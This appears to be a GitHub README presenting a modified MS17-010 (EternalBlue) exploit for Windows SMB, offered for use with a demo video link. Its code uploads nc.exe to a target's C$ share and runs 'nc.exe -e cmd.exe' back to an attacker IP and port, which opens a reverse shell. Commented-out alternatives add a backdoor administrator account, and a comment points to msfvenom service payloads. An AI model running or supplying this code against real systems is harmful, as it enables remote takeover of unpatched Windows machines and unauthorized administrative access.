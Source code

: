 # MS-17-010_Reverse_Connection_nc
#### Run MS17-010 modified exploit to get reverse nc connection

Modified Code
Change LHOST and LPORT. This is your IP address and port where you are listening.
nc.exe is in same folder where your script.

---------------------------------------------------------------------------------------------------------------------------------------

def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()	
	#print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, 'Full path of nc in local', 'C', '/nc.exe')
	smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
	#service_exec(conn, r'cmd /c net user temp temp123 /add && net localgroup administrators temp /add')
	print "check your nc...for reverse connection...."
	#service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe LHOST LPORT')
	service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe 10.11.0.152 3333')
	smbConn.disconnectTree(tid2)
	
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
	
def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)
		
----------------------------------------------------------------------------------------------------------------------------------------


POC: https://giant.gfycat.com/HappygoluckyEdibleHummingbird.webm

![Alt Text](https://giant.gfycat.com/HappygoluckyEdibleHummingbird.gif)
